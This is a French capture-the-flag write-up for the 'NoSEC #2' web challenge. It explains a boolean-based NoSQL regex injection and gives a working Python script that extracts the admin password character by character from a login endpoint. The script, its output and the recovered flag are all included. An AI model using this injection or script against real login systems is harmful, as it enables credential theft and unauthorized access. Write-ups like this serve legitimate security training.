 # NoSEC #2

### Catégorie

Web

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge !
L'URL du challenge reste la même.

http://139.162.137.94:3000/login

Format: Hero{motdepasse}

### Auteur

xanhacks

### Solution

Ici, nous pouvons utiliser une regex pour deviner le mot de passe et faire une NoSQL injection boolean based.

C'est à dire, la requête NoSQL renvoie :
- true : le mot de passe match la regex (L'application web nous indique que la connexion a eu lieu avec succès)
- false : le mot de passe NE match PAS la regex (L'application web nous indique que le mot de passe n'est pas correct)

Exemple:
```
-> password: abc123

regex: a.*  (valid)	   {"username":"admin","password":{"$regex":"^a.*$"}}
regex: aa.* (not valid)
regex: ab.* (valid)
regex: aba.* (not valid)
regex: abb.* (not valid)
regex: abc.* (valid)
etc ...
```

Nous pouvons donc récupérer caractère par caractère le mot de passe de l'administrateur avec un script python.

```python
#!/usr/bin/env python3
import json
import string
import requests

flag = ""
url = "http://139.162.137.94:3000/login"

print("password: ", end="")

for _ in range(32):
    for c in string.printable:
        data = {
                "username": "admin",
                "password": {"$regex": f"^{flag}{c}.*$"}
        }

        req = requests.post(url, json.dumps(data), headers={"Content-Type": "application/json"})
        
        if "You can validate" in req.text:
            flag += c
            print(c, end="", flush=True)
            break
```

```shell
> python3 solve.py
password: 5d41402abc4b2a76b9719d911017c592
```

### Flag

Hero{5d41402abc4b2a76b9719d911017c592}